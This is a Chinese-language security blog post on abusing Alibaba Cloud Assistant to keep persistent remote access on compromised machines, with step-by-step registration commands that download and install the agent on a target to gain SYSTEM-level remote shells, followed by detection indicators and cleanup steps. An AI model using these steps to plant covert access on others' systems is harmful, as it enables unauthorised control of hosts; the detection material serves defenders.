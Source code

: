 # 022-Ali云助手权限维持




## Ali云助手权限维持

## 简介

**云助手**是专为云服务器 ECS 打造的原生自动化运维工具，通过免密码、免登录、无需使用跳板机的形式，在 ECS 实例上实现批量运维、执行命令（Shell、PowerShell、Bat等）和发送文件等操作。

典型的使用场景包括：安装卸载软件、启动或停止服务、分发配置文件和执行一般的命令（或脚本）等。

但实际上也可以针对终端主机进行远程运维，因此可以用于实现权限维持。

&gt; 官方文档：
&gt;
&gt; https://help.aliyun.com/zh/ecs/user-guide/overview-10

## 利用

1、打开阿里云控制台，依次找到 产品与服务 -&gt; 云服务器 ECS -&gt; 运维与监控 -&gt; 发送命令/文件（云助手） -&gt; 托管实例 -&gt; 创建注册码：

![image-20250722015758523](resource/Ali云助手权限维持.assets/image-20250722015758523.png)

2、输入配置信息，包括如下内容：

- 实例名称前缀

  默认的实例名称。默认使用 hostname 作为实例名称。 若设置，则使用该注册码所注册的实例，将使用该名称作为前辍生成有序的实例名； 也可以在注册时指定新的实例名称以覆盖此默认值。

  只可包含特殊字符中的点号（.）、下划线（_）、连字符（-）和半角冒号（:）

- 来源IP限制：

  待注册的主机的访问互联网时的公网IP或IP范围，支持 IPv4、IPv6和CIDR地址段。

  仅在主机注册阶段进行校验。

- 激活数额度：

  注册码可激活的实例数，即此注册码最多可用于注册的次数。默认值10，最多可支持1000台。

- 有效期：

  注册码的有效期，默认4小时，可选范围 1～876576小时（约100年，半永久:laughing:  ）。

  超出有效期后，该注册码不可用于注册新的主机。

3、点击生成注册码

当生成注册码后，会在下方显示实例注册的命令脚本内容。该注册码内容只显示一次，因此需要保存此注册码唯一ID与内容。

支持Linux 和Windows :

**Linux(.rpm)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.rpm
sudo rpm -ivh aliyun_assist_latest.rpm --force 
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxL47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxxD244E7&#34;
```

**Linux(.deb)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.deb
sudo dpkg -i aliyun_assist_latest.deb
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxx47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxx3D244E7&#34;
```

**Windows**

```powershell
Invoke-WebRequest -Uri `
&#39;https://aliyun-client-assist.oss-accelerate.aliyuncs.com/windows/aliyun_agent_latest_setup.exe&#39; `
-OutFile &#39;C:\\aliyun_agent_latest_setup.exe&#39;
&amp;&#34;C:\\aliyun_agent_latest_setup.exe&#34; &#39;/S&#39; &#39;--register&#39; `
&#39;--RegionId=&#34;cn-hangzhou&#34;&#39; &#39;--ActivationCode=&#34;a-hz012xxxxvttL47fD/f&#34;&#39; `
&#39;--ActivationId=&#34;1DA9xxxxx244E7&#34;&#39;
```

生成的注册码中的关键参数就是 ActivationId值 和 ActivationCode值，Id和Code互相相互对应，可点击 “注册新实例” 处，查看过去建立生成的 ActivationId 值，但 ActivationCode值不可查。

![image-20250722015839420](resource/Ali云助手权限维持.assets/image-20250722015839420.png)

![image-20250722015852466](resource/Ali云助手权限维持.assets/image-20250722015852466.png)



使用阿里云给出的命令下载云助手agent，可能会出现权限不足的情况，需要将文件输出在当前用户可写的路径下。

![image-20250722015928880](resource/Ali云助手权限维持.assets/image-20250722015928880.png)

第一段命令为下载云助手Agent，需要等待一段时间，也可以通过其他方式投递。

第二段命令为云助手Agent注册上线ECS云助手控制端。

在目标机器上运行相应脚本，执行完之后需要刷新或者重新打开一个标签页，即可展示结果：

![image-20250722015943005](resource/Ali云助手权限维持.assets/image-20250722015943005.png)

执行命令相当于创建一个脚本，依次去执行；

远程登录即类似ECS，开启一个Web形式的终端

![image-20250722015958289](resource/Ali云助手权限维持.assets/image-20250722015958289.png)

可以看到登录后即为system权限。



目前发现一些问题：

1. 云助手Agent执行时有 UAC认证；
2. Powershell执行命令下载文件时，需要等待。
3. 在Windows Arm上会被识别为Ubuntu
4. 只适合命令控制，传输文件大小有限制，上传的文件原始大小不大于24KB，且经过Base64编码后的文件不能大于32KB。因此更适合与命令控制和权限维持。
5. 一条命令中，自定义参数的个数不能超过20个



## 排查

**云助手Agent**：

运行云助手后，Windows系统上会有一个 aliyun_agent的进程和一个AliyunService服务，该进程服务会开机自启。

![image-20250722020015817](resource/Ali云助手权限维持.assets/image-20250722020015817.png)

![image-20250722020030888](resource/Ali云助手权限维持.assets/image-20250722020030888.png)

**云助手守护进程：**

本地结束该进程后，远程连接即可终端。未发现进程保护等动作。

![image-20250722020056641](resource/Ali云助手权限维持.assets/image-20250722020056641.png)

![image-20250722020106861](resource/Ali云助手权限维持.assets/image-20250722020106861.png)

查了文档发现其实有守护进程，只是目前仅支持Linux操作系统。

云助手守护进程，用于监控云助手Agent的资源消耗情况，上报云助手Agent的运行状态，以及当云助手Agent崩溃时重启云助手Agent。

- 服务名称：`AssistDaemon`
- 路径：`/usr/local/share/assist-daemon/assist_daemon`

**任务执行路径：**

云助手会将用户的命令内容以文件形式先保存到实例上，然后再执行文件，具体保存路径如下：

- Linux：/tmp

- Windows：云助手安装路径/work/script

**通信流量：**

本地Agent上线后会先对域名进行解析，根据命令行中`--RegionId=&#34;cn-hangzhou&#34;`的键值，会寻找相应的节点，这里就是`cn-hangzhou.axt.aliyuncs.com`。

![image-20250722020124953](resource/Ali云助手权限维持.assets/image-20250722020124953.png)

从TLS协议握手过程可以看到Server Name为`cn-hangzhou.axt.aliyuncs.com`，接下去所走的流量都是TLS加密流量。

![image-20250722020134447](resource/Ali云助手权限维持.assets/image-20250722020134447.png)



## 特征：

1. 检测阿里云助手官方程序，确认是否本人安装
2. 域名：aliyun-client-assist.oss-accelerate.aliyuncs.com，用于下载云助手Agent程序，可被绕过通过其他方式投递。
3. 通信流量，DNS解析记录有`*.axt.aliyuncs.com`，TLS Client Hello 证书握手时Server Name是`*.axt.aliyuncs.com`
4. 进程名：aliyun_agent，服务名：Aliyun Assist Service
5. Linux系统守护进程：AssistDaemon

天眼分析中心日志检测，SSL加密协商：`server_name: (*.axt.aliyuncs.com)`

## 处置

1. 杀进程，关闭服务
2. 删除被非法安装的Ali云助手
3. 排查其他权限维持动作并清除。
4. 增加流量侧和终端侧检测，标记md5和域名。



## 参考文章：

https://mp.weixin.qq.com/s/-JqzD_F_5CqdwZAyhEBU8g

---

> 作者: Xavier  
> URL: http://localhost:1313/posts/022-ali%E4%BA%91%E5%8A%A9%E6%89%8B%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/ali%E4%BA%91%E5%8A%A9%E6%89%8B%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/  

